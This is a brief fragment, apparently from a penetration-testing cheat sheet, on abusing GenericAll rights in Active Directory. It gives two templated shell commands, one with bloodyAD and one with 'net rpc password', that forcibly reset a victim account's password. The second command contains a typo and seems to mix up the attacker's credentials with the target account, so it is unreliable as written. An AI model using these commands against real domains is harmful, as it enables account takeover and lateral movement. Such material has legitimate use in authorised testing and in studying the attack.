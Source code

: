 ### GenericAll

```shell
bloodyAD --host  $TARGET -d $DOMAIN -u $USERNAME -p $PASSWORD set password $VICTIM $NEW_PASSWORD
```

```shell
net rpc password $USERNAME $PASSWORD -U $DOMAIN/$SUERNAME%$PASSWORD -S $TARGET # Target can be dc02.sub.poseidon.yzx for example
```

